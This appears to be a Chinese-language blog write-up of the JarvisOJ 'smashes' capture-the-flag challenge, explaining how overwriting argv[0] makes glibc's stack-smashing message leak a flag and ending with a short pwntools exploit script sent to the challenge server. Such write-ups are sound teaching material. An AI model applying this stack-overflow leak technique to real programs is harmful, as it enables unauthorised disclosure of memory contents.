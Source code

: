 ```yaml
---
title: smashes
date: 2019-07-24
categories:
- javisoj
tags: stack ssp_leak
---
```


# ssp_leak

当程序栈溢出检查失败触发`__chk_stack_fail`函数时，会有一个   
![abort](https://c-ssl.duitang.com/uploads/item/201907/24/20190724130005_usjwZ.png)   
`abort`出现。    
`abort`后面的值是`argv`的指针数组指向的内容。    

`argv[0]`通常指向程序中的可执行文件的文件名。在有些版本的编译器中还包括程序文件所在的路径。   

所以当我们把`argv` 数组覆盖成某个指定的地址，就可以获得这个地址的内容

## 源码

```C
void __attribute__ ((noreturn)) 
__stack_chk_fail (void) {   
    __fortify_fail ("stack smashing detected"); 
}

void 
__attribute__ ((noreturn)) 
__fortify_fail (msg)
   const char *msg; {
      /* The loop is added only to keep gcc happy. */
         while (1)
              __libc_message (2, "*** %s ***: %s terminated\n", msg, __libc_argv[0] ?: "<unknown>") 
} 
libc_hidden_def (__fortify_fail)
```

# 思路

## 函数流程

- 输入一个`name`，造成缓冲区溢出。
- 再次从用户处获取输入，覆盖`data`段的`flag`

## 保护措施

![](https://c-ssl.duitang.com/uploads/item/201907/24/20190724130128_HeXGa.png)


- FORTIFY
<a href = "http://gcc.gnu.org/ml/gcc-patches/2004-09/msg02055.html">详情</a>    

是一种检测和预防某些缓冲区攻击的保护措施。编译器用某些方法预先知道了缓冲区的大小，`__*_chk`就会在运行的的时候知道这个缓冲区是否溢出。    



## ELF重映射

> 当可执行文件足够小的时候，他的不同区段可能在内存中被多次映射，所以当其中一个损坏，还是有机会找到另一处存储着相同的内容。

在这里我们可以找到另外一个存`flag`的地方。   

![pic](https://c-ssl.duitang.com/uploads/item/201907/25/20190725100635_kht3W.png)   

`0x400d20`这个地方就是重映射，没有被覆盖。   

但是本地打不出来。
![你妈的为什么]()

# exp

```python
from  pwn import * 

context.log_level = 'debug'
context.terminal = ['deepin-terminal','-x','sh','-c']

sh = remote('pwn.jarvisoj.com',9877)

payload = p64(0x400d20) * 160 

sh.sendlineafter('?',payload)
sh.sendlineafter(':',' ')

sh.interactive()
sh.close()
```
